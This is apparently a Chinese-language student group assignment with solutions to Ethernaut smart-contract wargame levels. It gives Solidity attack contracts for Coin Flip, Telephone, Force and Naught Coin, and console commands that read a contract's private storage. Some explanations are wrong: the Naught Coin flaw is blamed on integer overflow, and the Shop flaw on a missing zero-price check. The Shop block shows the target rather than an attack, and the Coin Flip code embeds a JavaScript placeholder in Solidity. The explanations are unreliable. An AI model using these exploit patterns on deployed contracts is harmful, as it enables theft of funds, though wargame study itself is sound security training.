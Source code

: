 # 團體作業 - 第三組

## 共同討論完成所有 [Ethernaut](https://ethernaut.openzeppelin.com/) 題目

1. 共同討論完成所有 Ethernaut 題目：[https://ethernaut.openzeppelin.com/](https://ethernaut.openzeppelin.com/)
    * 若卡關可以偷偷網路上搜尋解答，建議可以先思考討論再看答案

<!-- https://cyanwingsbird.blog/solidity/ethernaut/1-fallback/

https://xz.aliyun.com/t/7173

https://cloud.tencent.com/developer/article/2235227 -->

---

### Ethernautu遊戲學習重點:

* 安全問題
* 涉及合約的分析
* 攻擊流程的演示

--

3. Coin Flip

隨機數用 blockhash 容易被預測而變成攻擊目標，建議使用第三方服務，像是 chainLink 來取得隨機數。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract CoinFlipAttack {
    ICoinFlip constant private target = ICoinFlip(await contract獲取的實體地址);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

```
Number(await contract.consecutiveWins())
```

![](https://i.imgur.com/OPkrhp2.png)

--

4. Telephone

在智能合約編程中，盡量不要使用 x.origin，因為它容易受到攻擊，即攻擊者可以偽造訊息，將其發送給一個合約，同時將 x.origin 偽造成另一個地址，從而騙取合約的某些權限。相反，msg.sender 更加安全，因為它不容易被攻擊者偽造。

```
pragma solidity ^0.8;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address) external;
}

contract Hack {
    constructor(address _target) {
        // tx.origin = msg.sender
        // msg.sender = address(this)
        ITelephone(_target).changeOwner(msg.sender);
    }
}
/*
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

![](https://i.imgur.com/o6HLfym.png)

--

7. Force

selfdestruct 可以讓一個合約在自我銷毀之前將其餘的以太幣發送到一個指定的地址。攻擊者可以利用合約內的漏洞，使得目標合約在執行自毀函數時，將合約餘額轉移給攻擊者控制的地址，從而實現向目標合約強制轉賬。建議避免在合約內部存儲過多的以太幣，限制自毀函數的權限等。
```
pragma solidity ^0.8;

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```

![](https://i.imgur.com/eKZUN4u.png)

--

12. privacy

以太坊在儲存時是以32 bytes為一格順序儲存的，所以定義變量的順序會影響花費Gas的多少

依32 bytes 一格，會以下劃分:

Slot 0
```
bool public locked = true;
```
Slot 1
```
uint256 public ID = block.timestamp;
```
Slot 2
```
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```
Slot 3-5
```
bytes32[3] private data;
```


以下是在console的輸入過程
```
await web3.eth.getStorageAt(instance, 5)
'0x60d11579d2e9f3002771e25ea211665c2728080663f62254aff89d7ef1ccd863'

<!-- 取0x後面的32位 -->
contract.unlock("0x60d11579d2e9f3002771e25ea211665c")
```

--

15. Naught Coin

為了防止這種漏洞，合約應該使用 SafeMath 庫來避免整數溢出攻擊。此外，合約應該在對代幣數量進行操作之前，應該先檢查操作是否合法，例如檢查代幣數量是否超過了合約的最大值。開發者還可以使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
pragma solidity ^0.8;

interface INaughtCoin {
    function player() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

// 1. Deploy
// 2. coin.approve(hack, amount)
// 3. pwn
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}
```
![](https://i.imgur.com/7iDsLJs.png)

--

21. Shop

該合約的漏洞在於，合約在購買商品時並未檢查商品的價格是否為0。合約應該在購買商品之前檢查商品的價格是否為正確的價格，也應該在購買商品時檢查付款是否等於商品價格。這些檢查可以通過實現合約中的相應函數來實現，例如在購買商品時實現一個 buyItem 函數，在其中進行價格檢查和付款檢查。此外，還可以使用 SafeMat h庫來避免整數溢出攻擊，以及使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
![](https://i.imgur.com/0P00J1K.png)
